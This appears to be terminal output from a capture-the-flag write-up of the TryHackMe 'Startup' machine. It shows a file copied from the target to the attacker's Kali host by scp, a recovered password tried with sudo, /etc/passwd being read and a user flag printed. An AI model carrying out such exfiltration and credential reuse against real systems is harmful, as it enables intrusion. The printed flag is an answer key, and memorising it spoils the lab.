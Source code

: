 ```
www-data@startup:/$ cat recipe.txt
Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was love.
```

```
$ scp suspicious.pcapng kali@10.8.106.222:/home/kali/CTFs/tryhackme/Startup
Could not create directory '/var/www/.ssh'.
The authenticity of host '10.8.106.222 (10.8.106.222)' can't be established.
ECDSA key fingerprint is SHA256:xCE0Cpa4vJaXG1mwn7ciMO55E0R11HvAmXVl2ymdG+Y.
Are you sure you want to continue connecting (yes/no)? yes
Failed to add the host to the list of known hosts (/var/www/.ssh/known_hosts).
kali@10.8.106.222's password: 
suspicious.pcapng                             100%   30KB  30.5KB/s   00:00    
www-data@startup:/incidents$ 
```

```
www-data@startup:/$ cd
cd
bash: cd: HOME not set
www-data@startup:/$ ls
ls
bin   etc	  initrd.img.old  media  recipe.txt  snap  usr	    vmlinuz.old
boot  home	  lib		  mnt	 root	     srv   vagrant
data  incidents   lib64		  opt	 run	     sys   var
dev   initrd.img  lost+found	  proc	 sbin	     tmp   vmlinuz
www-data@startup:/$ cd home
cd home
www-data@startup:/home$ cd lennie
cd lennie
bash: cd: lennie: Permission denied
www-data@startup:/home$ ls
ls
lennie
www-data@startup:/home$ cd lennie
cd lennie
bash: cd: lennie: Permission denied
www-data@startup:/home$ sudo -l
sudo -l
[sudo] password for www-data: c4ntg3t3n0ughsp1c3

Sorry, try again.
[sudo] password for www-data: 

Sorry, try again.
[sudo] password for www-data: c4ntg3t3n0ughsp1c3

sudo: 3 incorrect password attempts
www-data@startup:/home$ cat /etc/passwd
```

```
lennie@startup:~$ ls -lA
total 12
drwxr-xr-x 2 lennie lennie 4096 Nov 12 04:53 Documents
drwxr-xr-x 2 root   root   4096 Nov 12 04:54 scripts
-rw-r--r-- 1 lennie lennie   38 Nov 12 04:53 user.txt
lennie@startup:~$ cat user.txt 
THM{03ce3d619b80ccbfb3b7fc81e46c0e79}
```
